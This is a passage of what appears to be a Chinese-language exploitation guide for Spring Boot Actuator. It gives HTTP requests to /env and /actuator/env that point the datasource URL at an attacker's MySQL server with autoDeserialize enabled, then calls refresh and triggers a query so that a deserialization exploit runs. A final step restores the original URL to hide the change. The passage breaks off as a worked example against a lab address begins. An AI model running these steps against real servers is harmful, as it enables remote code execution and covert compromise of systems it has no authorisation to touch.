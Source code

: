  mysql-connector-java 8.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```



spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.url=对应属性值
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.url","value":"对应属性值"}
```



**步骤四：刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```



**步骤五：触发数据库查询**

尝试访问网站已知的数据库查询的接口，例如： `/product/list` ，或者寻找其他方式，主动触发源网站进行数据库查询，然后漏洞会被触发



**步骤六：恢复正常 jdbc url**

反序列化漏洞利用完成后，使用 **步骤三** 的方法恢复 **步骤一** 中记录的 `spring.datasource.url` 的原始 `value` 值



##### 利用实例

访问目标站点 http://192.168.233.242:9097/actuator/evn   查看环境变量设置和依赖
